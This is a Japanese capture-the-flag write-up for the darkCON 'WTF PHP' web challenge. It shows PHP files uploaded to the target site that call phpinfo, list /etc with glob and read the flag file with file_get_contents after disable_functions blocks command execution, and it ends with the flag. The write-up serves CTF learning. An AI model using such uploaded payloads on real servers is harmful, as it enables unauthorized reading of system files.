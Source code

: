 # WTF PHP:Web:269pts
```
Your php function didnt work? maybe some info will help you xD 
PS: Flag is somewhere in /etc
Note: This chall does not require any brute forcing
```
[Link](http://wtf-php.darkarmy.xyz/)  

# Solution
アクセスするとファイルをアップロードでき、それを閲覧できるサイトのようだ。  
index.php  
[site1.png](site/site1.png)  
phpが設置できるので、`system`を呼べばよいのだが動作しない。  
infoに助けがあると問題文にあるので、以下のinfo.phpで`phpinfo`を呼び出す。  
```php:info.php
<?php
echo "info.php";
phpinfo();
?>
```
disable_functionsを見る。  
![df.png](images/df.png)  
任意コード実行できるものが軒並み使用不可となっている。  
しかし、`glob`や`file_get_contents`は使用できる。  
以下のglob.phpで問題に指定されている/etcをすべて見る。  
```php:glob.php
<?php
echo "glob.php";
print_r(glob("/etc/*"));
?>
```
glob.php  
[site2.png](site/site2.png)  
`/etc/f1@g.txt`なる怪しいファイルがあるようだ。  
以下のfgetcont.phpで読み込む。  
```php:fgetcont.php
<?php
echo "fgetcont.php";
echo file_get_contents("/etc/f1@g.txt");
?>
```
fgetcont.php  
[flag.png](site/flag.png)  
flagが書かれていた。  

## darkCON{us1ng_3_y34r_01d_bug_t0_byp4ss_d1s4ble_funct10n}